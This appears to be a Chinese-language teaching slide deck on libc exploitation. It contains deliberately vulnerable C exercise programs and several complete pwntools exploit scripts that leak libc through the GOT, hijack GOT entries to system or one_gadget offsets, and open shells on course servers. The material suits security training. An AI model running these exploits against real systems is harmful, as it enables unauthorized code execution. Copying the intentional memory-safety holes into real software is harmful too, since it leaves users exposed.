

# Libc in Linux

廖子慶  
2018/04/10 <!-- .element: align="right" -->

---

# Control_revege 題解

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdbool.h>
#include <stdlib.h>
#include <signal.h>
#include <time.h>
#define TIMEOUT 10

void handler(int signum){
    printf("Timeout\n");
    _exit(1);
}
void init_proc(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    signal(SIGALRM,handler);
    alarm(TIMEOUT);
}

int main(int argc, char *argv[])
{
    init_proc();
    char cmd[2];
    long long (*func)();
    long long args[6];
    while(1){
        printf("0. set rdi\n");
        printf("1. set rsi\n");
        printf("2. set rdx\n");
        printf("3. set rcx\n");
        printf("4. set r8\n");
        printf("5. set r9\n");
        printf("6. call function\n");
        printf("choose:");
        read(0,cmd,1);
        int idx=atoi(cmd);
        printf("value:");
        long long value;
        scanf("%lld",&value);
        if (idx==6) {
            func=(long long (*)()) value;
            (long long)(*func)(args[0],args[1],args[2],args[3],args[4],args[5]);
        }
        if (idx>=0&&idx<=5){
            args[idx]=value;
        }
    }
    return 0;
}
```

--

# 最佳解

```python
from pwn import *

io = remote('sv.duckll.tw', 7777)
#  io=process('./a.out')

elf = ELF('./a.out')
libc = ELF('./libc.so.6')


def send(key, value):
    io.sendafter(":", str(key))
    io.sendlineafter(":", str(value))


#printf(got['read'])
send(0, elf.got['read'])
send(6, elf.plt['printf'])

leak = io.recvuntil("\x7f")
libc_fgets = u64(leak.ljust(8, '\x00'))
log.info("libc_fgets@{}".format(hex(libc_fgets)))

libc_base = libc_fgets - libc.symbols['read']
log.info("libc_base@{}".format(hex(libc_base)))

libc_onegadget = libc_base + 0xef6c4
log.info("libc_system@{}".format(hex(libc_onegadget)))

#one_gadget
send(6, libc_onegadget)

io.interactive()
```

---

# 課堂練習

read & write

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdbool.h>
#include <stdlib.h>
#include <signal.h>
#include <time.h>
#define TIMEOUT 30

void handler(int signum){
    puts("Timeout");
    _exit(1);
}
void init_proc(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    signal(SIGALRM,handler);
    alarm(TIMEOUT);
}

int main(int argc, char *argv[])
{
    init_proc();
    int idx;
    long long *ptr;
    while(1){
        puts("0:read, 1:write :");
        scanf("%d",&idx);
        puts("postion :");
        scanf("%lld",&ptr);
        if (!idx) {
            printf("%lld\n",*ptr);
        } else {
            puts("value :");
            scanf("%lld",ptr);
        }
    }
    return 0;
}
```

```sh
nc sv.duckll.tw 12345
```

[rw](https://drive.google.com/open?id=12egIxPBWuO5dkyQO19_Tllw-BA3eTANs)

---

# 問題一

libc 沒有提供

--

# Dynmic Leak

- http://docs.pwntools.com/en/stable/dynelf.html
- 能多次 leak
- 找 base, symbols, buildID
- symbols 配合http://libcdb.com/ 找到 libc
- https://github.com/niklasb/libc-database
- buildID 配合 Google 找到 libc

--

# Demo

```python
from pwn import *
context.arch="amd64"

io=remote('sv.duckll.tw',12345)
elf=ELF('./a.out')

def menu(idx):
    io.recvline()
    io.sendline(str(idx))
    io.recvline()

def read(addr):
    menu(0)
    io.sendline(str(addr))
    return int(io.recvline()[:-1])

def write(addr,value):
    menu(1)
    io.sendline(str(addr))
    io.recvline()
    io.sendline(str(value))
    return

def leak(addr):
    return flat(read(addr))

puts_got=read(elf.got['puts'])

libc=DynELF(leak,puts_got)

libc_base=libc.find_base(leak,puts_got)

print(hex(libc_base))
print(hex(libc.lookup('system','libc.so')))
print(hex(libc.lookup('read','libc.so')))
print(libc._lookup_build_id())
print(hex(libc.stack()))
```

---

# 問題二

沒辦法控制 rip

--

# GOT Hijack

- GOT 是 function pointer
- 改變 GOT = 改變 rip

--



--

# Demo

```python
from pwn import *
context.arch="amd64"

#  io=process('./a.out')
io=remote('localhost',4000)
elf=ELF('./a.out')
libc=ELF('./libc.so.6')

def menu(idx):
    io.recvline()
    io.sendline(str(idx))
    io.recvline()

def read(addr):
    menu(0)
    io.sendline(str(addr))
    return int(io.recvline()[:-1])

def write(addr,value):
    menu(1)
    io.sendline(str(addr))
    io.recvline()
    io.sendline(str(value))
    return

puts_got=read(elf.got['puts'])
libc_base=puts_got-libc.symbols['puts']
libc_system=libc_base+libc.symbols['system']
write(elf.got['printf'],libc_system)

io.interactive()
```

---

# 問題三

- 沒辦法控制 rdi
- 只能控制 rip

--

# One gadget

https://github.com/david942j/one_gadget

```sh
one_gadget /path/libc.so.6

0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf02a4 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1147 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

- 已知 libc base 跟 libc 版本
- 跳過一遍就 getshell

--

# Demo

```python
from pwn import *
context.arch="amd64"

io=process('./a.out')
#  io=remote('localhost',4000)
elf=ELF('./a.out')
libc=ELF('./libc.so.6')

def menu(idx):
    io.recvline()
    io.sendline(str(idx))
    io.recvline()

def read(addr):
    menu(0)
    io.sendline(str(addr))
    return int(io.recvline()[:-1])

def write(addr,value):
    menu(1)
    io.sendline(str(addr))
    io.recvline()
    io.sendline(str(value))
    return

puts_got=read(elf.got['puts'])
libc_base=puts_got-libc.symbols['puts']
magic=0x45216
write(elf.got['printf'],libc_base+magic)

menu(0)
io.sendline(str(elf.got['puts']))
io.interactive()
```

---

# 回家作業

phone book

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdbool.h>
#include <stdlib.h>
#include <signal.h>
#include <time.h>
#define TIMEOUT 30

void handler(int signum){
    puts("Timeout");
    _exit(1);
}
void init_proc(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    signal(SIGALRM,handler);
    alarm(TIMEOUT);
}

int main(int argc, char *argv[])
{
    init_proc();
    int action;
    long long idx;
    long long book[100];
    long long *trick=book;
    while(1){
        puts("0:read, 1:write :");
        scanf("%d",&action);
        puts("index :");
        scanf("%lld",&idx);
        if (!action) {
            printf("%lld\n",book[idx]);
        } else {
            puts("value :");
            scanf("%lld",&book[idx]);
        }
    }
    return 0;
}
```

```sh
nc sv.duckll.tw 8888
```

[phonebook](https://drive.google.com/open?id=1EKki9jCOzcfZM7rice5thISTR8W5kEc5)

--

# Tips

1. leak array position (maybe need IDAPro)
1. make a function (position to array)
1. leak libc version (get it online)
1. one gadget
1. got hijack

---

# 期末作業

```c
#include <stdio.h>
#include <string.h>
#include <unistd.h>
#include <stdbool.h>
#include <stdlib.h>
#include <signal.h>
#include <time.h>
#define TIMEOUT 30

void handler(int signum){
    puts("Timeout");
    _exit(1);
}
void init_proc(){
    setvbuf(stdin,0,2,0);
    setvbuf(stdout,0,2,0);
    setvbuf(stderr,0,2,0);
    signal(SIGALRM,handler);
    alarm(TIMEOUT);
}

struct stdid{
    char name[8];
    long long id;
};

int main(int argc, char *argv[])
{
    init_proc();
    puts("A stduent id database!");
    int syscall;
    long long idx;
    struct stdid db[100];
    struct stdid *trick=db;
    memset(db,0,sizeof(struct stdid)*100);
    while(1){
        printf("0:read, 1:write ?");
        scanf("%d",&syscall);
        printf("index:");
        scanf("%lld",&idx);
        if (!syscall) {
            printf("name:");
            write(1,db[idx].name,8);
            printf("\nid:");
            printf("%lld\n",db[idx].id);
        } else {
            printf("name:");
            read(0,db[idx].name,8);
            printf("id:");
            scanf("%lld",&db[idx].id);
        }
    }
    return 0;
}
```

```sh
nc sv.duckll.tw 9999
```

[iddb](https://drive.google.com/open?id=1MZDpYSphiLEHuoN6fM1nrYSRk8c84W5G)

--

# Tips

1. Step is the same as above
1. Struct confuse you?
1. Did you write a program like this?(It's pwntable!)

---

# END
